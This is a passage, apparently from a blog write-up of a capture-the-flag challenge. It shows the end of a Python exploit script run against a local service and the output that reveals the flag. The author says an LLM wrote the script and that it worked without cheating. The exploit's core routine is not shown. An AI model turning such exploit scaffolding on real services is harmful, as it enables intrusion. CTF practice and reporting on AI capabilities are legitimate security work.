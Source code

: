 ```python
        if kv:
            print("Parsed fields:")
            for k in ("Author", "Comment", "Software"):
                if k in kv:
                    print(f"- {k}: {kv[k]}")
            if "Author" in kv:
                print(f"\nAuthor (MD5 of flag): {kv['Author']}")
        else:
            print(f"No parsable KV bundle. Raw chunk ({len(raw)} bytes)")

        # Second path: plaintext flag via comment-as-path trick
        try:
            plain = exploit_fetch_flag_via_comment(io)
            if plain:
                print(f"\nPlaintext flag via comment: {plain.decode('utf-8', errors='ignore')}")
            else:
                print("\nFailed to fetch plaintext flag via comment.")
        except Exception as e:
            print(f"\nError fetching plaintext flag via comment: {e}")
    finally:
        try:
            send_cmd(io, b"\x11")  # close session politely
        except Exception:
            pass
        io.close()


if __name__ == "__main__":
    main()
```

```console
[x] Opening connection to 127.0.0.1 on port 4265
[x] Opening connection to 127.0.0.1 on port 4265: Trying 127.0.0.1
[+] Opening connection to 127.0.0.1 on port 4265: Done
Parsed fields:
- Author: 1B5B55E424237B0FF70D2DAE6D79F226
- Software: ico v0.1

Author (MD5 of flag): 1B5B55E424237B0FF70D2DAE6D79F226

Plaintext flag via comment: flag{WINNER_WINNER_CHICKEN_DOBER}

[*] Closed connection to 127.0.0.1 port 4265
```

My first thought upon just running the script was that the LLM cheated. I thought it was *reward hacking* and just opening the file on my local system.

But I read the code... And I read it again... And then I had 3 teammates test the code.

**Fuck.**
